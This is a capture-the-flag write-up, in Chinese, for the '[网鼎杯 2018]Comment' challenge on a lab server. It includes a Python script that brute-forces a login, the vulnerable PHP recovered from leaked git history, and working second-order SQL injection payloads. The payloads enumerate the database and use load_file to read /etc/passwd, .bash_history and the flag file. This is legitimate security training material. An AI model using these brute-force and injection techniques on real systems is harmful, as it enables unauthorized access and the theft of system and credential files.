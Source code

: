 # [网鼎杯 2018]Comment

## 知识点

`SQL注入`

`二次注入 `

`git泄露`

`.DS_Store找flag`

## 解题

首页给了一个留言版发帖，但是点击发帖输入提交后发现要求登录

![](./img/[网鼎杯2018]Comment-1.png)

提示账号为`zhangwei`，密码为`zhangwei***`，先尝试`纯数字`

```python
import requests
from string import digits, ascii_letters
import itertools
import time


url = "http://ede22497-5485-431d-b0bb-d6bfabe76903.node5.buuoj.cn:81/login.php"

res = list(itertools.product(digits, repeat=3))

dictionary = [''.join(v) for v in res]


with open('./res.txt', 'w') as f:
    for passwd in dictionary:
        data = {
            "username": 'zhangwei',
            'password': f'zhangwei{passwd}'
        }
        resp = requests.post(url, data=data)
        print(f"username:zhangwei\tpassword:zhangwei{passwd}\tresp_code:{resp.status_code}\tresp_length:{len(resp.text)}")
        f.write(f"username:zhangwei\tpassword:zhangwei{passwd}\tresp_code:{resp.status_code}\tresp_length:{len(resp.text)}\n")
        time.sleep(0.15)
```

最后发现`zhangwei666`的响应包长度不同，尝试登录，发现成功登录，且在扫描目录的过程中发现了`git泄露`，`githack`下载后发现给的代码无法利用

```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    break;
case 'comment':
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```

似乎内容被删除了，看一下历史版本信息

```bash
git log --all
```

![](./img/[网鼎杯2018]Comment-22.png)

发现了三个版本，逐个回退，在`e5b2a2443c2b6d395d06960123142bc91123148c`版本发现源码

```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    $category = addslashes($_POST['category']);
    $title = addslashes($_POST['title']);
    $content = addslashes($_POST['content']);
    $sql = "insert into board
            set category = '$category',
                title = '$title',
                content = '$content'";
    $result = mysql_query($sql);
    header("Location: ./index.php");
    break;
case 'comment':
    $bo_id = addslashes($_POST['bo_id']);
    $sql = "select category from board where id='$bo_id'";
    $result = mysql_query($sql);
    $num = mysql_num_rows($result);
    if($num>0){
    $category = mysql_fetch_array($result)['category'];
    $content = addslashes($_POST['content']);
    $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";
    $result = mysql_query($sql);
    }
    header("Location: ./comment.php?id=$bo_id");
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```

我们可以在`write`时写入`payload`，在`comment`时进行二次注入，最终结果会显示在`comment.php`，第一步尝试``

```sql
title=test&category=test',content=database(),/*&content=test
```

发现能正常回显

![](./img/[网鼎杯2018]Comment-4.png)

因为`sql`语句是多行语句，所以用`*/`进行多行注释

![](./img/[网鼎杯2018]Comment-5.png)



![](./img/[网鼎杯2018]Comment-3.png)

发现能正常查询，注`数据库，表等等`

```sql
(select(group_concat(table_schema))from(information_schema.schemata))

(select(group_concat(table_name))from(information_schema.tables)where((table_schema)=database()))
```

后面发现`flag`不在数据库中，尝试读`用户创建容器时执行的命令`，首先找一下`用户家目录`

```sql
(select(load_file("/etc/passwd")))
```

![](./img/[网鼎杯2018]Comment-6.png)

发现家目录在`/home/www`，尝试读取`.bash_history`

```sql
(select(load_file("/home/www/.bash_history")))
```

![](./img/[网鼎杯2018]Comment-7.png)

发现`.DS_Store`文件还在`/tmp/html`，`.DS_Store`文件可以看到目录文件，尝试读取

```sql
(select(load_file("/tmp/html/.DS_Store")))
```

![](./img/[网鼎杯2018]Comment-8.png)

这样读有点问题，尝试使用`16`进制输出

```sql
(select(hex(load_file("/tmp/html/.DS_Store"))))
```

![](./img/[网鼎杯2018]Comment-9.png)

`hex`解码

![](./img/[网鼎杯2018]Comment-10.png)

读取文件

```sql
(select(hex(load_file("/tmp/html/flag_8946e1ff1ee3e40f.php"))))
```

![](./img/[网鼎杯2018]Comment-11.png)

![](./img/[网鼎杯2018]Comment-12.png)

[参考文章](https://www.cnblogs.com/Article-kelp/p/16077919.html)